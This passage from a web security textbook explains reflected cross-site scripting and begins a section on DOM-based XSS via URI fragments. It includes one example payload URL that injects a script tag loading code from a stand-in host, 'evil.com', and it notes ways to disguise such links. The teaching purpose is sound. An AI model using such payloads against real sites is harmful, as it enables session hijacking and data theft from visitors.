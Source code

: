 If the website is vulnerable to XSS, anyone who visits this URL will have the `<script>` tag written to the HTML of the web page, and the script will be executed. The attacker might even hide the malicious link in the comments section itself to trick the victim.

You might well ask a couple of questions at this point: how much malicious JavaScript can be crammed into a URL, and why would anyone click such a suspicious-looking URL? The answer to the first question is “Quite a lot.” Browsers generally respect URLs up to 2,000 characters long. More pertinently, malicious scripts injected via XSS often import a whole other script from a remote source to achieve their effect, so the malicious script tag doesn’t need much space:

```
https://www.breddit.com/search/<script src="evil.com/hack.js">
```

As for tricking users into visiting a suspicious URL, that part is fairly easy. The attacker can use character encodings to disguise the malicious script, or they can use any website that redirects to a user-controlled endpoint—such as a URL-shortening service—to redirect to a malicious URL.

Reflected XSS vulnerabilities are less vicious than stored XSS vulnerabilities because they require each victim to click a malicious link rather than stumble across a particular page on your website. These attacks are often overlooked in code reviews, however, because they appear in less obvious places. Be sure to check any pages that display part of the HTTP request to the user; search pages and error pages commonly exhibit this vulnerability.

### DOM-based cross-site scripting

[](/book/grokking-web-application-security/chapter-6/)One other means of launching XSS attacks uses particular parts of a URL. Recall that a URL has the following parts:[](/book/grokking-web-application-security/chapter-6/)[](/book/grokking-web-application-security/chapter-6/)[](/book/grokking-web-application-security/chapter-6/)

The final (optional) part of the URL after the pound sign (`#`) is the *URI fragment*. You will often see URI fragments used in links to particular sections of a web page. The following URL links to the “In Culture” section of the Wikipedia page about pierogies:

```
https://en.wikipedia.org/wiki/Pierogi#In_culture
```

[](/book/grokking-web-application-security/chapter-6/)When you click this link, the browser renders the web page and then scrolls down to the “In Culture” heading, where you learn that Saint Hyacinth is the patron saint of pierogies and that “Saint Hyacinth and his pierogi!” is an expression of surprise in the Polish language.

An interesting fact about URI fragments is that they are available only to the browser. If you click a URL with a fragment, the browser reads the full URL but strips off the trailing fragment before passing the request to the server.

Implementation-wise, this process makes sense because the intent of URI fragments is to allow intrapage linking. The browser says, “Just send me the whole HTML page” and then searches for a tag with an `id` attribute with the value `in_culture`:

```
<span class="mw-headline" id="In_culture">In culture</span>
```

URI fragments, however, can also be read (and written) by JavaScript in the browser. Websites that do a lot of client-side rendering often take advantage of that fact. You sometimes see websites that implement an infinitely scrolling timeline modifying the URI fragment as you scroll down the page.
